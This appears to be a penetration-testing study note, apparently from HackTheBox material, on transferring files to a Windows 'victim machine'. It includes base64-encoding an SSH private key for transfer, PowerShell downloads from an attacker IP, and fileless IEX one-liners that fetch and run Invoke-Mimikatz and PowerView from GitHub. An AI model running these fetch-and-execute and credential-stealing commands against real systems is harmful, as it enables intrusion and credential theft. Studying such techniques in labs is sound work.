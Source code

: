 # Windows Transfer Methods


#### Content Copy

- generate hash to check 
```shell-session
md5sum id_rsa
```

- base64 encode contents
```shell-session
cat id_rsa |base64 -w 0;echo
```

- copy content & decode at victim machine
```powershell-session
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("ZTRmZWVjNDY2ZDVkZTcwMTA4OWI1Y2MxYmY2ZDU5MmE="))
```
- check hash of file
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```
## Downloads
## PowerShell Web Downloads

- Download files using class name `Net.WebClient` and the method `DownloadFile`
```powershell-session
(New-Object Net.WebClient).DownloadFile('http://10.10.15.117/upload_win.txt','upload.txt')
```

```powershell-session
(New-Object Net.WebClient).DownloadFileAsync('http://10.10.15.117/upload_win.txt','upload.txt')
```

-  Fileless Method (execute file without copy in system) using [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) or the alias `IEX`
```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell-session
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

- Download file using [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2)
```powershell-session
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
